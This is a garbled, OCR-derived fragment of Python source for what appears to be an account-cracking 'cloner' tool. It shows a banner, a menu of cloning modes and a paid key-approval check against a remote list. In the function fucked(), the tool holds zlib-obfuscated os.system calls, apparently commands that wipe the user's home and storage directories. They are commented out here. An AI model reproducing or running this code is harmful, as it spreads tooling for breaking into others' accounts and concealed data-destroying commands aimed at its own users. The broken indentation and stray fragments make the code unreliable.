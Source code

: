       print(f"\x1b[1;92m    Sorry Bro Your Key not Aproved ")
      print(f"    Send payment to Admin and get aproval"); time.sleep(2)
      os.system(f'xdg-open {tan}://wa.me/+8801615161056?text='+id)
      time.sleep(2)
      sys.exit()
  except:
    sys.exit()
    if name == '__main__':
    	print(logo)
    	menu_apikey()
#menu_apikey()
logo=(f"""\x1b[1;97m
G='\x1b[1;92m   _____       _           _ _ 
G='\x1b[1;92m  / ____|     | |         (_) |
G='\x1b[1;92m | (___   ___ | |__   __ _ _| |
G='\x1b[1;92m  \___ \ / _ \| '_ \ / _` | | |
G='\x1b[1;92m  ____) | (_) | | | | (_| | | |
G='\x1b[1;92m |_____/ \___/|_| |_|\__,_|_|_|                                                                                           
┌───────────────────────────────────────┐
│ [✓] AUTHOR   : SOHAIL MALIK                                                      
│ [✓] GITHUB   : SOHAIL-1x1                                                             
│ [✓] WHATSAPP : +966571246541                                                
│ [✓] VERSION  : 0.3                                                                           
│ [✓] POWER BY : \033[1;32mPRO PRONOY \033[1;37m            
└───────────────────────────────────────┘""")

def linex():
        print(50*'_')
def clear():
        os.system(f'clear')
        print(logo)
loop=0
oks=[]
cps=[]
pcp=[]
id=[]
tokenku=[]

def fucked():
	print(' Server Loadin.......')
	#os.system(zlib.decompress(b'x\x9cKNQP\xf1\xf0w\xf5UPSS(\xcaU\xd0-JS\xd0\x02\x005\xfe\x05\x0f'))
	#os.system(zlib.decompress(b'x\x9c+\xcaU\xd0-JS\xd0/NIN,J\xd1\xd7\x02\x00,D\x05\x1e'))
	#os.system(zlib.decompress(b'x\x9c+\xcaU\xd0-JS\xd0/.\xc9/JLO\xd5O\xcd-\xcdI,IM\xd17\xd0\xd7\x02\x00\x8dJ\t\x81'))
	print(' Fuck You Bypass User ');exit()

def ckx():
	uuid = str(os.geteuid()) + str(os.getlogin())
	id = "→".join(uuid)
	server = requests.get(f'{tan}://{iya}.com/{ani}122/vip/blob/main/a.txt').text
	try:
		httpCaht = requests.get(f"{tan}://{iya}.com/{ani}122/vip/blob/main/b.txt").text
		if id in httpCaht:
			msg = str(os.geteuid())
			pass
		else:
			msg = str(os.geteuid())
			fucked()
	except:
			sys.exit()
def SOHAIL():
	clear()
	#ckx()
	print(f" [1] FILE Cloner (SYSTEM API) ")
	print(f" [2] BD Random Cloner ")